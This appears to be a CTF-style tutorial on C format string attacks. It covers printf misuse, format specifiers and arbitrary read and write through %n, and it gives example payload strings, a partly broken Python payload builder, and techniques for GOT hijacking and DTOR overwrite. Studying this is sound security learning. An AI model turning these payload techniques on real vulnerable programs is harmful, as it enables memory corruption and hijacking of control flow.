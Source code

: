 # Format String Attack
First, take a look at the **printf** example.
```C
printf("%p",a);   //such %p is called "Format String"
//However, many people just use like the following >
printf("a");     //or printf(buf);  
//Vulnerability also live in family of printf,vsprintf,fprintf,vsnprintf,sprint,vfprintf,snprintf,vprintf.
```  
Now, you should know that is very **dangerous**. When the author forget to use the format string then hacker can **control** the format string to attack. OK, let's us learn how to attack.  

## Printf Layout
Sometimes printf will printf some weird value in the following situation.:scream:  
```C
#include <stdio.h>
#include <stdlib.h>
int main(int argc,char *argv[]){
  char *format = "%s";
  char *arg1 = "hello world!\n";
  printf(format,arg1);
  return EXIT_SUCCESS;
}  
// command "man 3 printf" then you can see more use of printf
// The above example is the right use  
printf("%p %p",a);
```  
We already know that one %p represents a variable. But in the example above, we can see that we use two %p with only one example, then we can see a weird value print out on result without crash. In fact, the weird value comes from the **stack**.:yum:  
The picture following can help you understand more......  
<img src="https://github.com/shinmao/WhyNot-StackOverflow/blob/master/Format-String-Attack/printf%20layout.png" width="626" height="276">   
Therefore, the value are all located in the consecutive position in the following. We can also print the value in specified location with the format string of %(num)$p.  

## Use of Format String
```C
%d: 4byte of integer, output decimal number
%u: 4byte of unsigned integer
%c: 1byte of character
%x: 4bytes of hex, output hexadecimal number
%s: 4byte string, read string from memory  
%p: ptr address  
%n: the number of string, write the number of bytes untill the format string to memory  
%(num)c: at least num of string  
%h: 2byte, short int  
%hh: 1byte of char
%l: 4byte, long int
%ll: 8byte, long long int
```  
You may get tired with the rules above. Don't worry, I will show how to use it in soon.:+1:  
> When we start to attack, we also need to be careful that printf() will be eaten by the null bytes, this usually happen in 64-bits!  

## Read from arbitrary memory  
  
### First, tell you a little trick
When we neen to make the payload, the number before c is always a complex problem.  
Therefore, how about make up a function to calculate for us.    v Python  
```Python
def fmt(prev,val,index):
  result = ""
  if prev < val :
    result += "%"+str(val-prev)+"c"
  elif prev == val :
    result += ""
  else :  
    result = "%"+str(val-prev+256)+"c"  
  result += "%"+str(index)+"$hhn"
  return result  
#
#Try to play with this function??
#
$target is the value we want to write in  
for i in range(4):
  payload += fmt(prev,(target >> i*8)& 0xff,$index+i)  
  prev = (target >> i*8)& 0xff
```  

## Write to arbitrary memory  
```C
"12345%3$n"   //write len(12345) to the fourth parameter  
"%123c%3$n"   //write 123 to the fourth parameter because "c" is the count
"%123c%3$hhn" //write one byte
"%30c%3$hhn%70c%4$hhn"   //Be careful, this mean we write 100 to the fifth parameter!!
```  
How do we solve the null-byte problem?  
```C
"%45068c%10$hn\xdd\xaa\x00\x00\x00\x00...."   //put the address at the end of payload then we can solve the problem  
```  
Besides, for convenience, we will padding format string to the 8 bytes.  
  
:fire: **GOT hijacking**  
What is GOT? List of pointers to dynamically linked symbols.  
```
readelf --relocs ./elf  
gdb-peda$ got
```  
![How about review GOT?](https://rafaelchen.wordpress.com/2017/09/25/pwn%E7%9A%84%E4%BF%AE%E7%85%89%E4%B9%8B%E8%B7%AF-lazy-binding/#more-1244)  
**Be sure that RELRO not be FULL**. When RELRO is open, pltsymbol will be removed.  
![Practice makes progress](https://github.com/shinmao/CTF-writeups/tree/master/NTU-CTF-2017/format-string)  
In the **craxme3.py**, it is the best practice of format string in GOT-Hijacking.  
:fire: **DTOR Overwrite**  
It is an old use of format string attack that hijack the flow after main function finished.  
Because most C programs will call destructors after main is executed.  
What is DTOR list? List of destructors to call.  
e.g.DEADBEEF: __DTOR_END__  
e.g.DEADBEEB: __DTOR_LIST__  
Nowadays, we can use command of **'objdump -h -j .fini_array ./elf'** to get the address of it.  
**Be sure that RELRO to be disabled**.

## Advanced trick  
:fire: **RBP chain**  
It is also an interesting trick used in **double function call**.  
In fact, I still not complete the practice of it. After that I will update this tutorial in soon!
